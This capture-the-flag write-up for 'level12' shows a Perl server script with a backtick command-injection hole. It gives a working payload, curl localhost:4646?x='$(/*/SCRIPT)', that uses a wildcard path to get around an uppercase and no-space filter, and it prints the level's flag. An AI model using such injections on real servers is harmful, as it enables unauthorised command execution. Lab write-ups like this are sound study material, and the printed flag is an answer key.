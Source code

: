 # level12

We see a script `./level12.pl` and nothing else. We examine it and determine it does something similar to the script found at `level04` ; it sets up a simple server, waiting for query parameters.

We're looking to exploit the following lines :

```
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

With `$xx` as our input, the first line replaces all lowercase characters with uppercase, and the second strips anything past the first space.

Our input needs to be in all caps and contain no spaces. We can't use `x=$(getflag)` like before. How can we get around that ?

We start by writing a script called `/tmp/SCRIPT` :

```
#!/bin/bash

getflag > /tmp/flag
```

`SCRIPT` being uppercase, we won't have an issue. But `tmp` isn't, so we run `/*/SCRIPT` instead. This will match any script that fits the `*`.

We run the following (with simple quotes, so our `$` isn't interpreted) :

```
curl localhost:4646?x='$(/*/SCRIPT)'
```

## The flag

The script executes, we read `/tmp/flag` and we get our flag :

```
g1qKMiRpXf53AWhDaU7FEkczr
```